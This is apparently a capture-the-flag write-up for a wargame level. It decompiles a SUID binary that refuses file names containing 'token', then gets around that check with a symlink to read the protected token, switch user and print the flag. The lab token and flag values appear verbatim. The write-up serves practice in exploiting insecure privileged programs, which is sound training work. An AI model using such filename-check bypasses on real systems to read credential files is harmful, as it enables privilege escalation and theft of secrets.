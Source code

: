 Another 32 bits elf executable (SUID bit also set):
```C
08048554    int32_t main(int32_t argc, char** argv, char** envp)

08048554    {
08048554        char** envp_1 = envp;
0804856e        void* gsbase;
0804856e        int32_t eax_2 = *(uint32_t*)((char*)gsbase + 20);
0804856e        
08048581        if (argc == 1)
08048581        {
080485ba            printf("%s [file to read]\n", *(uint32_t*)argv);
080485a1            exit(1);
08048581        }
08048581        
080485c1        if (strstr(argv[1], "token"))
080485c1        {
080485fd            printf("You may not access '%s'\n", argv[1]);
080485e4            exit(1);
080485c1        }
080485c1        
080485fd        int32_t fd = open(argv[1], 0);
080485fd        
0804860b        if (fd == 0xffffffff)
0804860b        {
08048645            err(1, "Unable to open %s", argv[1]);
0804860b        }
0804860b        
08048645        void buf;
08048645        ssize_t nbytes = read(fd, &buf, 1024);
08048645        
08048653        if (nbytes == 0xffffffff)
08048653        {
08048688            err(1, "Unable to read fd %d", fd);
08048653        }
08048653        
08048688        ssize_t result = write(1, &buf, nbytes);
08048688        
0804869b        if (eax_2 == *(uint32_t*)((char*)gsbase + 20))
080486a3            return result;
08048554    }
```

\- The program reads the content for a file and prints it on STDOUT. But it cannot read a file that contains the word "token"

\- So the script has the SUID bits set and executes with flag08 privileges. So permissions is not a problem anymore.

\- Now we have to bypass the strstr(argv[1], "token") condition.

Let's make a symlink to the token file without the token in his name:

```bash
> ln -s ~/token /tmp/bypass

> ./level08 /tmp/bypass
Token: quif5eloekouj29ke0vouxean

> su level09

> getflag
25749xKZ8L7DkSCwJkT9dyv6f
```

*25749xKZ8L7DkSCwJkT9dyv6f*